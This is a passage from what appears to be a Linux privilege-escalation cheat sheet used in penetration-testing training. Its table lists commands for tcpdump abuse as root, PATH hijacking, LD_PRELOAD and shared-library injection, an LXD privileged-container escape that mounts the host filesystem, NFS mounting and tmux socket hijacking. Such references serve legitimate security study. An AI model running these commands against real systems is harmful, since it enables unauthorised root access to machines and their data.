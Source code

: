|`sudo /usr/sbin/tcpdump -ln -i ens192 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root`|Priv esc with `tcpdump`|
|`echo $PATH`|Check the current user's PATH variable contents|
|`PATH=.:${PATH}`|Add a `.` to the beginning of the current user's PATH|
|`find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`|Search for config files|
|`ldd /bin/ls`|View the shared objects required by a binary|
|`sudo LD_PRELOAD=/tmp/root.so /usr/sbin/apache2 restart`|Escalate privileges using `LD_PRELOAD`|
|`readelf -d payroll \| grep PATH`|Check the RUNPATH of a binary|
|`gcc src.c -fPIC -shared -o /development/libshared.so`|Compiled a shared libary|
|`lxd init`|Start the LXD initialization process|
|`lxc image import alpine.tar.gz alpine.tar.gz.root --alias alpine`|Import a local image|
|`lxc init alpine r00t -c security.privileged=true`|Start a privileged LXD container|
|`lxc config device add r00t mydev disk source=/ path=/mnt/root recursive=true`|Mount the host file system in a container|
|`lxc start r00t`|Start the container|
|`showmount -e 10.129.2.12`|Show the NFS export list|
|`sudo mount -t nfs 10.129.2.12:/tmp /mnt`|Mount an NFS share locally|
|`tmux -S /shareds new -s debugsess`|Created a shared `tmux` session socket|
|`./lynis audit system`|Perform a system audit with `Lynis`|









